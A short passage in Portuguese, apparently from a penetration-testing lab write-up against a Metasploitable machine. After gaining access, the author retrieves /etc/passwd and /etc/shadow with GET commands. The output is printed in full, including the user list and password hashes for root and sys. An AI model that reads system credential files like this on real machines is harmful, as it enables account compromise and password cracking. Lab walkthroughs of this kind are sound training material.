 Podemos também procurar e baixar arquivos sensíveis como /etc/passwd e /etc/shadow, que contêm informações sobre os usuários e suas senhas. Vamos listar o conteúdo desses arquivos com o comando GET:

```bash
GET /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
```

```bash
GET /etc/shadow
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
```